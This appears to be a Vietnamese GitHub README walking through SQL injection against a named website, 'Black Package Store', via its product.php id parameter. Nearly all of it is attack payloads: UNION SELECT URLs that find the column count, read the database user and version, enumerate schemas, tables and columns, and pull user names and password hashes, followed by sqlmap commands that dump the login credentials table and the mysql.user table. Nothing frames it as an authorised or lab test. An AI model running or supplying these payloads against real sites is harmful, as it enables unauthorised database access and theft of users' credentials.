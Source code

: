 # TỔNG QUAN # 
Kiểm tra trên web "Black Package Store" `https://blackpackagestore.com/product.php?id=72`

![image](https://github.com/user-attachments/assets/df34c6d3-c54f-4b61-a8d8-c942b15b4122)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

![image](https://github.com/user-attachments/assets/fd126029-74d6-4b5d-843e-aa1ef90ca9bd)

![image](https://github.com/user-attachments/assets/1dae9e7c-ede6-497c-bd76-4927cd8affc5)

![image](https://github.com/user-attachments/assets/3d4a301c-ba81-467e-a6a6-8014fc79e6f1)

## Kiểm tra database, version, user 

`https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,user(),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30`

![image](https://github.com/user-attachments/assets/9fd803ab-520e-4c15-91c6-311e91b50589)

`https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,database(),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30`

![image](https://github.com/user-attachments/assets/ea00b3ed-b953-4291-bde2-d0e5f1020c4d)

`https://blackpackagestore.com/product.php?id=72+UNION+ALL+SELECT+1,2,3,4,version(),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30`

![image](https://github.com/user-attachments/assets/3bfea2e5-184f-46a7-960c-96dcc4c28024)

## Trích xuất cơ sở dữ liệu

**1. Liệt kê các database**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,schema_name,0x7c),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.schemata`

![image](https://github.com/user-attachments/assets/3632da54-d00c-4ccb-9c56-6ec40fa147c9)

**2. Liệt kê các bảng**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,table_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.tables+where+table_schema='login'`

![image](https://github.com/user-attachments/assets/dd0d9791-c629-4116-a806-beaf2619fa81)

**3. Liệt kê các cột trong bảng**

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,group_concat(0x7c,column_name,0x7C),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+information_schema.columns+where+table_name='users'`

![image](https://github.com/user-attachments/assets/f9de200a-39dc-4de3-9c36-3aaf21127c14)

**4. Trích xuất dữ liệu bất kì**
`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_name,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users`

![image](https://github.com/user-attachments/assets/ae785d98-fb82-48b3-b93f-2db8573a8b2b)

`https://blackpackagestore.com/product.php?id=72+UNION+SELECT+1,2,3,user_password_hash,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30+from+users`

![image](https://github.com/user-attachments/assets/21f2d6bf-6f0e-40b0-a00e-1d82d634f08e)

## Sử dụng `sqlmap`

**1. Trích xuất database:**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 --dbs`

![image](https://github.com/user-attachments/assets/c5c25908-7213-447b-8c11-74e926545840)

**2. Tìm kiếm thông tin về username, password, tài khoản sysadmin**

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login --tables`

![image](https://github.com/user-attachments/assets/2127b404-259e-417a-94e4-722aec4c55b3)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_name --dump`

![image](https://github.com/user-attachments/assets/d9f17e4d-25ef-4890-ac4a-bf44a344b327)

sqlmap -u https://blackpackagestore.com/product.php?id=72 -D login -T users -C user_password_hash --dump`

![image](https://github.com/user-attachments/assets/fe22e570-f0ce-463b-a7e3-ea2bc8165b7f)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql --tables`

![image](https://github.com/user-attachments/assets/52a6f9ab-eb0d-4a26-9dcb-f3b508b81e3b)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user --columns`

![image](https://github.com/user-attachments/assets/2054d2a2-1b16-4880-a56e-c776fda75c70)

![image](https://github.com/user-attachments/assets/0709a901-ee5c-47ef-95ad-a21e66f6de02)

`sqlmap -u https://blackpackagestore.com/product.php?id=72 -D mysql -T user -C Host,User,plugin --dump`

![image](https://github.com/user-attachments/assets/394ed735-6352-49a4-b918-61cc6fab1593)

